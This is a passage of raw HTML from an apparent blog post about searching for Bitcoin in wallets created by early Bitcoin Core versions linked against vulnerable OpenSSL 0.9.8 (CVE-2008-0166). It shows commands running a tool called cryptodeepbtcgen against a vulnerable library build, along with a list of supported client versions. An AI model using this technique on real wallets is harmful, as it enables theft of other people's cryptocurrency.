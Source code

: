 ls -lh
</code></pre>
<figure class="wp-block-image"><img title="cryptodeepbtcgen successfully created!" src="./Search for BTC coins on earlier versions of Bitcoin Core with critical vulnerability OpenSSL 0.9.8 CVE-2008-0166 - «CRYPTO DEEP TECH»_files/c70338b5ee1f6991711f03d09c4e2932.png" alt="cryptodeepbtcgen successfully created!"><figcaption>cryptodeepbtcgen successfully created!</figcaption></figure>
<pre class="wp-block-code"><code>LD_LIBRARY_PATH=./openssl-0.9.8c-vuln/ ./cryptodeepbtcgen -h</code></pre>
<figure class="wp-block-image"><img src="./Search for BTC coins on earlier versions of Bitcoin Core with critical vulnerability OpenSSL 0.9.8 CVE-2008-0166 - «CRYPTO DEEP TECH»_files/b601a69413aacc3e9efa10ef0fb084fb.png" alt="Search for BTC coins on earlier versions of Bitcoin Core with critical vulnerability OpenSSL 0.9.8 CVE-2008-0166"></figure>
<h2>All supported versions of the Bitcoin Core software client:</h2>
<pre class="wp-block-code"><code>LD_LIBRARY_PATH=./openssl-0.9.8c-vuln/ ./cryptodeepbtcgen -l</code></pre>
<figure class="wp-block-image"><img src="./Search for BTC coins on earlier versions of Bitcoin Core with critical vulnerability OpenSSL 0.9.8 CVE-2008-0166 - «CRYPTO DEEP TECH»_files/77ab0df5baf110bd11c89ccebba0791d.png" alt="Search for BTC coins on earlier versions of Bitcoin Core with critical vulnerability OpenSSL 0.9.8 CVE-2008-0166"></figure>
<pre class="wp-block-code"><code>crypto &gt; LD_LIBRARY_PATH=./openssl-0.9.8c-vuln/ ./cryptodeepbtcgen -l
#0   - 0.3.24
#1   - 0.8.6-d
#2   - 0.8.6-qt
#3   - 0.9.1-d
#4   - 0.9.4-d
#5   - unknownA
#6   - unknownB
#7   - unknownC
#8   - unknownD
#9   - unknownE
#10  - unknownF
#11  - unknownG
#12  - unknownH
#13  - unknownI
#14  - unknownJ
#15  - unknownK
#16  - unknownA0
#17  - unknownA1
#18  - unknownA2